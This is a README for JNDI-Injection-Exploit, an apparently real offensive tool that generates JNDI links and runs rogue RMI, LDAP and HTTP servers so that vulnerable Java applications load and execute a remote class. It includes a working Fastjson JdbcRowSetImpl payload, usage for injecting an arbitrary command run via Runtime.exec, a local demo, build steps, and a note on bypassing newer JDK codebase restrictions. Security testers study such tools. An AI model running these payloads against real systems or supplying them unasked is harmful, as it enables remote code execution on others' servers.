 # JNDI-Injection-Exploit

[Materials about JNDI Injection](https://www.blackhat.com/docs/us-16/materials/us-16-Munoz-A-Journey-From-JNDI-LDAP-Manipulation-To-RCE.pdf)

[中文文档](https://github.com/welk1n/JNDI-Injection-Exploit/blob/master/README-CN.md)

[相关文章](https://www.cnblogs.com/Welk1n/p/11066397.html)

## Description

JNDI-Injection-Exploit is a tool for generating workable JNDI links and provide background services by starting RMI server,LDAP server and HTTP server. RMI server and LDAP server are based on  [marshals](https://github.com/mbechler/marshalsec) and modified further to link with HTTP server.

Using this tool allows you get JNDI links, you can insert these links into your **POC** to test vulnerability.

For example, this is a Fastjson vul-poc:

```json
{"@type":"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"rmi://127.0.0.1:1099/Object","autoCommit":true}
```

We can replace  "rmi://127.0.0.1:1099/Object" with the link generated by JNDI-Injection-Exploit to test vulnerability.

## Disclaimer

All information and code is provided solely for educational purposes and/or testing your own systems for these vulnerabilities.

## Usage

Run as

```shell
$ java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar [-C] [command] [-A] [address]
```

where:

- **-C** - command executed in the remote classfile.

  (optional , default command is "open /Applications/Calculator.app")

- **-A** - the address of your server, maybe an IP address or a domain.

  (optional , default address is the first network interface address)

Points for attention:

- make sure your server's ports (**1099**, **1389**, **8180**) are available .

  or you can change the default port in the run.ServerStart class line 26~28.

- your command is passed to **Runtime.getRuntime().exec()** as parameters,

  so you need to ensure your command is workable in method exec().

  **Command in bash like "bash -c ...." need to add Double quotes.**

## Examples

Local demo:

1. Start the tool like this:

   ```shell
   $ java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C "open /Applications/Calculator.app" -A "127.0.0.1"
   ```

   Screenshot:

   ![image-20191018154346759](https://github.com/welk1n/JNDI-Injection-Exploit/blob/master/screenshots/1.png)

2. Assume that we inject the JNDI links like rmi://ADDRESS/jfxllc generated in step 1 to a vulnerable application which can be attacked by JNDI injection.

   In this example, it looks like this:

   ```java
   public static void main(String[] args) throws Exception{
       InitialContext ctx = new InitialContext();
       ctx.lookup("rmi://127.0.0.1/fgf4fp");
   }
   ```

   then when we run this code, the command will be executed ,

   and the log will be printed in shell:

   ![image-20191018154515787](https://github.com/welk1n/JNDI-Injection-Exploit/blob/master/screenshots/2.png)



## Installation

We can select one of the two methods to get the jar.

1. Download the latest jar from [Realease](https://github.com/welk1n/JNDI-Injection-Exploit/releases/download/v1.0/JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar).

2. Clone the source code to local and build (Requires Java 1.8+ and Maven 3.x+).

   ```shell
   $ git clone https://github.com/welk1n/JNDI-Injection-Exploit.git
   ```

   ```shell
   $ cd JNDI-Injection-Exploit
   ```

   ```shell
   $ mvn clean package -DskipTests
   ```

## To do

- (**Done**)Combine this project and [JNDI-Injection-Bypass](https://github.com/welk1n/JNDI-Injection-Bypass) to generate workable links when **trustURLCodebase is false** in higher versions of JDK by default.
- … ...